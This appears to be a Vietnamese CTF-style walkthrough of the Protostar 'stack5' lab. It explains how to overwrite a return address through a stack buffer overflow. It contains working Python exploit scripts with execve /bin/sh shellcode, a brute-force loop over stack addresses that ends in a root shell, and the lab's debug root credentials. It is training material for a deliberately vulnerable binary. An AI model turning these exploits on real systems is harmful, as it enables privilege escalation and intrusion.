 ## Stack 5

Lần này không có hàm nào để rewrite return address rồi trả về cả. Đây là lúc dùng để shellcode, ta sẽ viết shellcode ngay trên stack, rewrite địa chỉ trả về đến vị trí bắt đầu của shellcode, shellcode lúc này sẽ spawn cho ta một con shell.

### Approach #1: attach debug
Cách tiếp cận đầu tiên là attach debug vào file binary, do stack của file khi debug bằng gdb và khi chạy ngoài sẽ rất khác nhau, do GDB đưa thêm nhiều thứ của nó vào nữa nên địa chỉ của mọi thứ sẽ bị lệch nhau

Protostar có cung cấp cho ta một account root là `root:godmode` dùng để debug, login bằng account này. Sau đó ta chạy file binary `stack5`, chương trình sẽ hang để chờ input, lúc này ta chạy lệnh `ps -aux` để tìm tiến trình của file binary và dùng gdb attach: `gdb -p <pid>`

Chuyển sang chương trình, ta thử nhập `AAAA` vào, ta sẽ thấy địa chỉ của biến `buffer` là `0xbffff6f0`, địa chỉ trả về thì sẽ nằm ở `0xbffff73c` (break tại `ret` sẽ thấy), vậy khoảng cách giữa 2 địa chỉ là 76 bytes, ta sẽ padding 76 bytes, từ byte thứ 77 sẽ là địa chỉ mà ta muốn nhảy tới sau lệnh `ret`, đó là địa chỉ của shellcode trên stack, ta sẽ để shell code ở ngay địa chỉ tiếp theo, địa chỉ `0xbffff73c+4`

```python 
import struct

padding = "A"*76
eip = struct.pack("I",0xbffff73c+4)
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding+eip+shellcode
```

Về shellcode thì mình dùng shellcode này https://shell-storm.org/shellcode/files/shellcode-827.html, shellcode thực chất chỉ là một đoạn assembly được compile qua bytecode thôi, đoạn shellcode trên sẽ thực thi `/bin/sh`

Chứa output tại một file tên `payload` rồi đưa vào file binary

```
user@protostar:/opt/protostar/bin$ ./stack5 < ~/payload
user@protostar:/opt/protostar/bin$ 
```

Không có gì xảy ra, đây là do thực chất `/bin/sh` đã gọi, nhưng `/bin/sh` thì cần input vào là các commands, nhưng chương trình của chúng ta thì sau khi nhận input (lúc gọi lệnh `gets`) thì nó sẽ đóng stdin pipe, do đó chương trình sẽ đóng do không có input nào. Do đó ta sẽ dùng một cách:
```
(cat /home/user/payload ; cat) | ./stack5
```

Đầu tiên `cat /home/user/payload` sẽ đưa payload ta chuẩn bị sẵn vào stdin của ./stack5, cùng với đó là `cat`, như ta biết nếu `cat` được thực thi mà không có tham số nào thì nó sẽ redirect stdin của nó đến stdout, cứ như thế đến khi nào ta chủ động exit, vậy bằng cách gọi thêm `cat` ta có thể giữ cho stdin của `stack5` luôn mở, dù cho `gets` đã nhận xong input 

```
user@protostar:/opt/protostar/bin$ (cat /home/user/payload ; cat) | ./stack5
ls
final0	final2	 format1  format3  heap0  heap2  net0  net2  net4    stack1  stack3  stack5  stack7
final1	format0  format2  format4  heap1  heap3  net1  net3  stack0  stack2  stack4  stack6


```

### Approach #2: bruteforce

Một cách khác để tiếp cận đó là bruteforce, so sánh địa chỉ chứa return address ta tìm được khi attach debug là `0xbffff73c` với địa chỉ khi debug bằng gdb là `0xbffff6ec` ta sẽ thấy địa chỉ ở GDB thấp hơn so với lúc chương trình chạy bình thường ( là khi attach debug vào ), do gdb nó thêm một đống thứ khác vào stack nữa.

Stack đi từ địa chỉ cao về địa chỉ thấp, vậy để tìm ra địa chỉ đúng của chương trình, ta sẽ bruteforce các địa chỉ `0xbffff6ec+1*4`,`0xbffff6ec+2*4`, ... `0xbffff6ec+n*4` cho đến khi tìm ra địa chỉ đúng

Code:
```python
#!/usr/bin/python

import struct
import os

padding = "A"*76
eip = 0xbffff6ec+4
shellcode = "\x90"*0 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

for i in range(0, 0x90):
    f = open("test.txt","w")
    this_eip = eip + i*4
    pack_eip = struct.pack("I", this_eip)
    f.write(padding+pack_eip+shellcode+b'\n')
    f.close() # close file before cat or else it wont print out result
    print "[*] EIP: {0} ".format(hex(this_eip))
    out_ = os.popen("(cat test.txt ; echo id ) | /opt/protostar/bin/stack5").read()
    if len(out_):
            print out_
            break
```
Result:
```
user@protostar:~$ python brute.py 
[*] EIP: 0xbffff6f0L 
[*] EIP: 0xbffff6f4L 
Segmentation fault
[*] EIP: 0xbffff6f8L 
[*] EIP: 0xbffff6fcL 
[*] EIP: 0xbffff700L 
Segmentation fault
[*] EIP: 0xbffff704L 
Segmentation fault
[*] EIP: 0xbffff708L 
Segmentation fault
[*] EIP: 0xbffff70cL 
Segmentation fault
[*] EIP: 0xbffff710L 
Segmentation fault
[*] EIP: 0xbffff714L 
Segmentation fault
[*] EIP: 0xbffff718L 
Segmentation fault
[*] EIP: 0xbffff71cL 
Segmentation fault
[*] EIP: 0xbffff720L 
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)

```

Vậy tại `0xbffff720` sẽ chứa chứa return address của chương trình 

